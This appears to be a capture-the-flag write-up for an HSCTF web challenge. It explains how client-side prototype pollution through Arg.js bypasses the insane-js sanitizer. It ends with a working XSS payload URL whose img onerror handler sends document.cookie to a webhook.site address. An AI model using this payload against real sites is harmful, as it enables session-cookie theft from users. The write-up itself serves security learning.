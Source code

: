 # web/fancier-page

> No description.

> Flag: flag{prototype_pollution_kills_thousands_of_websites_each_year}

# How to solve
There is 'report to admin' feature on this website. So, there must be XSS things. If we look at the `/app/scripts/display.js` there is 2 imported js module(Arg-js and insane-js). 
```
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";
import { default as insane } from "https://cdn.jsdelivr.net/npm/insane@2.6.2/+esm";
```
> Arg-js is URL argument and parameter parser.

> insane-js is HTML sanitizer, similar to Dompurify.

We can't perform basic XSS due to insane-js sanitizer. But, we have Arg.js to perform client side prototype pollution. Check out this [awesome repository](https://github.com/BlackFan/client-side-prototype-pollution). Our idea is to perform client side prototype pollution to bypass the insane-js sanitizer.

If we look at the insane-js [source code](https://github.dev/bevacqua/insane/blob/master/sanitizer.js) below.
```
function parse(key) {
    ...
    var classesOk = (o.allowedClasses || {})[low] || [];
    var attrsOk = (o.allowedAttributes || {})[low] || [];
    ...
    if (lkey === 'class' && attrsOk.indexOf(lkey) === -1) {
        value = value.split(' ').filter(isValidClass).join(' ').trim();
        valid = value.length;
    } else {
        valid = attrsOk.indexOf(lkey) !== -1 && (attributes.uris[lkey] !== true || testUrl(value));
    }
    if (valid) {
        out(' ');
        out(key);
        if (typeof value === 'string') {
            out('="');
            out(he.encode(value));
            out('"');
        }
    }

    function isValidClass(className) {
        return classesOk && classesOk.indexOf(className) !== -1;
    }
}
```
It will check  `options.allowedClasses.<tag>` and `options.allowedAtrributes.<attr>`. Since, our default `options` looks like this :
```
const options = {
	allowedAttributes: {
		a: ["href"],
		abbr: ["title"],
		details: ["open"],
		"*": ["id", "dir"],
	},
	allowedClasses: {},
	allowedSchemes: ["http", "https"],
	allowedTags: [
		"a",
		"abbr",
		"article",
		"b",
		"blockquote",
		"br",
		"code",
		"del",
		"details",
		"div",
		"em",
		"h1",
		"h2",
		"h3",
		"h4",
		"h5",
		"h6",
		"hr",
		"i",
		"img",
		"ins",
		"kbd",
		"li",
		"main",
		"mark",
		"ol",
		"p",
		"pre",
		"q",
		"s",
		"section",
		"small",
		"span",
		"strike",
		"strong",
		"sub",
		"summary",
		"sup",
		"u",
		"ul",
	],
	filter: null,
	transformText: null,
};
```
It will sanitize the `<img src=x onerror=alert(1)>` completely. To bypass this, we can use prototype pollution. 

Our final payload looks like this :
```
http://fancier-page.hsctf.com/display.html?__proto__.img[0]=onerror&__proto__.img[1]=src&title=a&content=%3Cimg+src%3dx+onerror%3dwindow.location%3D%27http%3A%2F%2Fwebhook.site%2F0611881c-bc41-45f3-a8c9-de17092c579a%2F%3F%27%2Bdocument.cookie%3B%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
``` 